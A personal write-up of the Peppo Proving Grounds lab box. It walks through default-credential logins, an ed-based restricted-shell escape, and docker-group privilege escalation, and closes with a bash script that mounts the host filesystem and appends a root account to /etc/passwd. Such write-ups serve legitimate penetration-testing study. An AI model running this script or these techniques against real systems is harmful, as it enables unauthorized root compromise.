 ```yaml
---
layout: writeup
title: Peppo - Proving Grounds
date: 2024-07-18 13:32:20 +0300
description: A Writeup of the Peppo Box from Proving Grounds
image: # /assets/images/Flu/Flu_1.png
fig-caption: # Add figcaption (optional)
tags: [Linux, LainKusunagi]
---
```


Here's a writeup for Marketing, an Intermediate Proving Grounds box I saw on the LainKusunagi OSCP Prep List. I take note that the community has rated this Hard. Let's kick things off with a port scan using nmap: `sudo nmap -p- -T4 -v 192.168.242.60`.

```
PORT      STATE  SERVICE
22/tcp    open   ssh
53/tcp    closed domain
113/tcp   open   ident
5432/tcp  open   postgresql
8080/tcp  open   http-proxy
10000/tcp open   snet-sensor-mgmt
```

Pretty quickly we see there is a port open on 8080, so I go to the browser to check it and begin a gobuster scan to check for any particularly interesting directories. 

![Peppo1.png](/assets/images/Peppo/Peppo1.png){: .responsive-image}
The directory scan shows a page called `/users` which prompts us to login. I try `admin:admin` which works, but we get prompted for a new password (`party321`). I click around a while in the application and check for exploits online. While I'm enumerating the site, I create a test project to see what that does. I can't exactly tell, but once I'm in the project, I see a field for files, and that reminds me of a settings page with allowed extensions. 

![Peppo2.png](/assets/images/Peppo/Peppo2.png){: .responsive-image}

I add a few, including Ruby due to Wappalyzer. I create a ruby shell and upload it, but it seems to only show the text when clicking the file after.

![Peppo3.png](/assets/images/Peppo/Peppo3.png){: .responsive-image}
Maybe there's another way to execute or access, but I don't immediately see one in browser or in my still-running gobuster scan. 

I try an [exploit](https://github.com/slowmistio/Redmine-CVE-2019-18890) I saw earlier on, but I can't seem to get it working. It is a SQL injection with a sample `SLEEP(5)` injection, and the output says it was successful, but it doesn't take 5 sections, and it says it's successful even when I use a URL with a sub-directory that doesn't exist. Checking the Information panel in the admin console shows us that we are working with `Redmine version 4.1.1.stable`, so that's probably a dead end. It may be time to explore ports 113, 5432, and 10000. 

I check out port 113 which is running ident. I don't know much about it, but apparently it associates TCP connections with a specific user, and we can install `ident-user-enum` with apt. So I run it on the open ports, and get `ident-user-enum 192.168.242.60 10000` to return `eleanor`. Maybe that's useful. 

I try to use that with `psql` to connect to the PostgreSQL service, but I can't get that working. Port 10000 returns 'Hello World' in browser, but Wappalyzer suggests this is ultimately coming from Redmine, and is not a webserver for which we can scan the directory. 

After a few hours I give up and look for a hint. It turns out we can log in through SSH using `eleanor:eleanor`. I have rarely if ever seen that in a lab like this. SSH usually seems to be for administration for the lab, not the first foothold. So that's lesson learned 1 - remember to try that. Dumb. But I SSH in and find the shell is restricted. 

![Peppo4.png](/assets/images/Peppo/Peppo4.png){: .responsive-image}

I can't `cd`, `cat`, or redirect output (`>` or `>>`), and a number of basic commands are not found. I try to use `scp` to copy files into eleanor's home directory, but I get a connection closed. We can however `echo $PATH` which returns `/home/eleanor/bin`, and then we can `ls /home/eleanor/bin` to find which commands we can run. 
![Peppo5.png](/assets/images/Peppo/Peppo5.png){: .responsive-image}

Maybe we can use one of those. Gtfobins says we can use `ed` to break out of a restricted environment so I run `ed` and `!/bin/sh`. This kind of works, but tit turns out we need the full path to run some commands like `cat`. 

![Peppo6.png](/assets/images/Peppo/Peppo6.png){: .responsive-image}

Not that big of a deal. I can also cd into helloworld and find `index.js` which shows: 

```
const http = require('http');
const hostname = '0.0.0.0';
const port = 10000;
http.createServer((req, res) => {
  res.writeHead(200, { 'Content-Type': 'text/plain' });
  res.end('Hello World\n');
}).listen(port, hostname, () => {
  console.log('Server running...');
});

```

That looks like what we see in port 10000. I try echoing a .js shell in the same directory, but the permission is denied. The `find` command is not on the machine either to help find SUID binaries. `Sudo` isn't either. I upload lse, les, and linpeas to try those out using the full path of `/usr/bin/wget` (or simply using a penelope shell and using native commands to upload it).

Linpeas really wants us to notice the docker group we are a part of. 

![Peppo7.png](/assets/images/Peppo/Peppo7.png){: .responsive-image}

I check for docker commands on gtfobins, and most of them seem to need some kind of downloaded image. For example when I run `CONTAINER_ID="$(docker run -d alpine)"`, I get the response, `Unable to find image 'alpine:latest' locally` - same with debian which we are actually on according to `/bin/uname -a`. Apparently docker images are usually stored in `/var/lib/docker`, but we don't have access. I can however run `/usr/bin/docker ps -a` to get a list of all images and see that redmine and postgres are available. Unfortunately even substituting these images does not seem to allow us to overwrite `/etc/sudoers` (like in [Nukem](remember to link)) or `/etc/passwd` as in others. It also won't allow me to read protected files so I'm not exactly sure why linpeas flagged it.

After a few more hours I give up and check a writeup. Turns out I did need docker, and I was just looking at the wrong code on gtfobins. I can't use it to do privileged read or writes, but just using it to get a shell automatically gives you a root shell. 

![Peppo8.png](/assets/images/Peppo/Peppo8.png){: .responsive-image}

My experience to this point is that this section of gtfobins just gets you a shell. This is what we did with `ed` actually, but it didn't give you a root shell. Now I know I guess. 

![Peppo9.png](/assets/images/Peppo/Peppo9.png){: .responsive-image}

Lessons learned: Try to log into ssh even though it's a Proving Grounds lab, and make sure to do a little more reading on the topic. After I "completed" the lab, I went back and read a little bit more to try to solidify my understanding. [This](https://flast101.github.io/docker-privesc/)post helped. It also pointed out that I was only still in the container, but I was able to read the proof flag. So I did go ahead and edit /`/etc/passwd` and create a new user with a password generated from openssl. I was able to ssh using that user getting full root access over the machine. 

That same post also had a script PoC. The version posted did not work because we had to change a lot of different commands to their full paths, so it took a bit of trial and error. The final script looks like this: 

```
#!/bin/bash

docker_test=$( /usr/bin/docker ps | /bin/grep "CONTAINER ID" | /usr/bin/cut -d " " -f 1-2 ) 

if [ $(/usr/bin/id -u) -eq 0 ]; then
    echo "The user islready root. Have fun ;-)"
    exit
    
elif [ "$docker_test" == "CONTAINER ID" ]; then
    echo 'Please write down your new root credentials.'
    read -p 'Choose a root user name: ' rootname
    read -s -p 'Choose a root password: ' passw
    hpass=$(/usr/bin/openssl passwd -1 -salt mysalt $passw)

    echo -e "$rootname:$hpass:0:0:root:/root:/bin/bash" > new_account
    mv new_account /tmp/new_account
    /usr/bin/docker run -tid -v /:/mnt/ --name flast101.github.io redmine # CHANGE THIS IF NEEDED
    /usr/bin/docker exec -ti flast101.github.io sh -c "/bin/cat /mnt/tmp/new_account >> /mnt/etc/passwd"
    sleep 1; echo '...'
    
    echo 'Success! Root user ready. Enter your password to login as root:'
    /usr/bin/docker /bin/rm -f flast101.github.io
    /usr/bin/docker image /bin/rm redmine
    /bin/rm /tmp/new_account
    /bin/su $rootname

else echo "Your account does not have permission to execute docker or docker is not running, aborting..."
    exit

fi

```

Note that some of the commands require `/usr/bin/$command` and some just `/bin/$command`. Eventually I did get it working though, so that was always an option. I found this blog earlier in my research but failed to properly read through it, so again this is another box that I shouldn't have needed a writeup for. I got up with the intention of reading it when I sat back down and failed to do so. Not great, but now I know, and at least I punished myself with a few hours of looking aimlessly around the box. 

** Bonus: This escalation path is featured in the last video of [TCM's Linux Privilege Escalation Course](https://academy.tcm-sec.com/courses/) which I happened to view the very next day. 

